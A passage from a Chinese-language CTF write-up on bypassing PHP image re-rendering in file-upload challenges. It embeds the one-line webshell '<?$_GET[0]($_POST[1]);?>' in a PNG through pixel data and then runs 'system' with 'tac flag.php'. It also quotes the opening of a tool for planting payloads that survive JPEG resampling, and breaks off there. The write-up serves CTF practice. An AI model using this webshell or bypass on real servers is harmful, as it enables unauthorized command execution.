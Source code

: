 ```plain

for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y / 3), 0, $color);
}

imagepng($img,'2.png');  //要修改的图片的路径
/* 木马内容
<?$_GET[0]($_POST[1]);?>
 */

?>

访问这个文件，就可以进行生成2.png
访问：http://127.0.0.1:8081/web/ercixuanran.php，生成2.png,上传2.png
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721225996197-3edbf0f2-fb3a-4120-8341-d5be1d89ce00.png)

```plain
上传png，地址：http://39b22f8f-3944-4773-a9cd-ecb290a41f64.challenge.ctf.show/download.php?image=fb5c81ed3a220004b71069645f112867.png
然后进行传参：
0=system
1=tac flag.php
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721225996223-37589757-8a7b-404d-98fa-da9e84c3e69e.png)

165

```plain
这个是jpg前端验证，是jpg的二次渲染
<button type="button" class="layui-btn" id="upload" lay-data="{url: 'upload.php', accept: 'images',exts:'jpg'}">

上传正常的图片，路径：http://4b36fbb6-67f1-4b47-9356-152a44237d69.challenge.ctf.show/download.php?image=1167610aa17b0813233fe82d99403e41.jpg
也是属于文件包含这种图片。
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721225996336-68762c86-109c-44c7-8a1e-4326dd997c09.png)

```plain
发现也是对图片进行处理了一写。图片大小，代码都有处理。
先上传图片，然后下载图片，对下载的图片进行代码修改。
工具代码：
<?php
    /*
    The algorithm of injecting the payload into the JPG image, which will keep unchanged after transformations caused by PHP functions imagecopyresized() and imagecopyresampled().
    It is necessary that the size and quality of the initial image are the same as those of the processed image.
    1) Upload an arbitrary image via secured files upload script
    2) Save the processed image and launch:
    jpg_payload.php <jpg_name.jpg>
    In case of successful injection you will get a specially crafted image, which should be uploaded again.
    Since the most straightforward injection method is used, the following problems can occur:
    1) After the second processing the injected data may become partially corrupted.
    2) The jpg_payload.php script outputs "Something's wrong".
```